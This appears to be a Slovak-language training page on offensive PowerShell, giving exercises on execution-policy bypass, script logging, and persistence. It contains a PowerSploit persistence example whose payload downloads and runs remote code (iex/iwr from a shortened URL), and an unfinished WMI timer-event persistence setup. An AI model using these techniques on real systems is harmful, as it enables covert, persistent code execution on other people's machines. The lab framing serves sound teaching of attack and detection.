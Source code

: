 ### Obídenie PowerShell Execution Policy

<pre class="lang:ps decode:true ">Set-ExecutionPolicy Restricted
powershell.exe -ExecutionPolicy Bypass ...</pre>

### Logovanie

Úloha: Zapnite logovanie PowerShell príkazov cez&nbsp;lokálny GPO, spustite niekoľko príkazov a&nbsp;skúste ich nájsť v&nbsp;logoch.

[Script Tracing and&nbsp;Logging](https://docs.microsoft.com/en-us/powershell/wmf/5.0/audit_script)

[PowerShell 5 Logging](https://www.rootusers.com/enable-and-configure-module-script-block-and-transcription-logging-in-windows-powershell/)[  
<img class="aligncenter" src="https://www.fireeye.com/content/dam/fireeye-www/blog/images/dunwoody%20powershell/figure_2.png" alt="" width="501" height="319" />](https://www.fireeye.com/content/dam/fireeye-www/blog/images/dunwoody%20powershell/figure_2.png) 

### Perzistencia

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

<pre class="lang:ps decode:true">Import-Module ....\PowerSploit.psd1
$Rickroll = { iex (iwr http://bit.ly/e0Mw9w ) }
$ElevatedOptions = New-ElevatedPersistenceOption -ScheduledTask -OnIdle
$UserOptions = New-UserPersistenceOption -ScheduledTask -OnIdle

# Vygenerujeme inštalačný a&nbsp;odinštalačný skript na&nbsp;plánovanú úlohu
Add-Persistence -ScriptBlock $RickRoll -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $UserOptions -Verbose -PassThru | Out-EncodedCommand | Out-File .\EncodedPersistentScript.ps1</pre>

Úloha: Skúste WMI alebo Registry perzistenciu!

### WMI Perzistencia (Manuálny spôsob)

[WMI Explorer](https://wmie.codeplex.com/downloads/get/924042)

<pre class="lang:ps decode:true ">$payload = {
    Get-Date &gt;&gt; C:\test.txt
}

$encodedPayload = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($Payload))

$command = "powershell.exe -EncodedCommand $encodedPayload"

$timer = Set-WmiInstance -Class __IntervalTimerInstruction -Arguments @{
    IntervalBetweenEvents = ([UInt32] 10000)
    SkipIfPassed = $False
    TimerId = 'PayloadTrigger'
}

$filter = Set-WmiInstance -Class __EventFilter -Namespace root/subscription -Arguments @{
    EventNamespace = 'root/cimv2'
    Name = 'TimerTrigger'
    Query = "SELECT * FROM&nbsp;__TimerEvent WHERE&nbsp;TimerID = 'PayloadTrigger'"
    QueryLanguage = 'WQL'
}
